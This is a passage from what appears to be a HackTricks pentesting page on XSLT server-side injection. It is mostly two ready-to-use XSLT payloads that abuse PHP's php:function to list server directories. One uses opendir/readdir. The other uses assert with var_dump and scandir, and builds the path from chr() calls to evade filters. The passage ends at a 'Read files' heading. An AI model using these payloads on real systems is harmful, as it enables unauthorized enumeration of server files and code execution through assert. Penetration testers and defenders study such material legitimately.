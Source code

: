 ## 

[](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations#directory-listing-php)

Directory listing (PHP)

### 

[](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations#opendir--readdir)

**Opendir + readdir**

Copy

```
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('opendir','/path/to/dir')"/>
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
</xsl:template></xsl:stylesheet>
```

### 

[](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations#assert-var_dump--scandir--false)

**Assert (var_dump + scandir + false)**

Copy

```
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
    <body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
        <xsl:copy-of name="asd" select="php:function('assert','var_dump(scandir(chr(46).chr(47)))==3')" />
        <br />
    </body>
</html>
```

## 

[](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations#read-files)
